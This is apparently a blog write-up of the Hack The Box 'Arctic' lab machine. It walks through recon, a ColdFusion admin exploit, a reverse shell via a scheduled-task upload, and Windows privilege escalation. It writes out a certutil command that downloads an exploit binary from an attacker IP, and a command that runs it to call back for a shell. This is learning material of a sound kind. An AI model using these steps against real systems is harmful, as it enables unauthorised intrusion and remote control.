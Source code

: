 ```yaml
---
layout: post
title:  "HTB Arctic Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


Arctic was an easy one that i wont forget due to how certain exploits are used.

# Recon
Port scanning shows port 5800 is open serving coldfusion
Some directory bruteforcing returns CFIDE which will be our admin endpoint.

# Pwning the webapp

Searching exploit-db, we find a suitable exploit that may assist in getting into the coldfusion admin panel. Exploit 14641 does some amazing things, it will retrieve the password hash of the admin/user of the panel and inject it into the html of the login form!
From this we get the password of 'happyday'. From there, gaining a reverse shell through coldfusion is fairly stock standard. Setup a scheduled task with an upload and output file with a web directory then upload a shell. Run the task and navigate to the saved directory with a listener to gain a shell as arctic\tolis

# Gaining root

Running 'systeminfo' on the box shows us theres no hotfixes installed and its not a brand new os. This particular box shows signs of being vulnerable to <???>. Download the Chimchurri exploit from github. Use a method of file transfer on windows like the following to recieve the file.
```
<run webserver to host file>
certutil -urlcache -split -f http://10.10.14.4/chimchurri.exe churr.exe
<execute exploit when new listener is running>
churr.exe 10.10.14.4 443
```
Thats it ! quick and easy root for arctic. 14641 is still one of the simplest and most effective exploits ive seen.
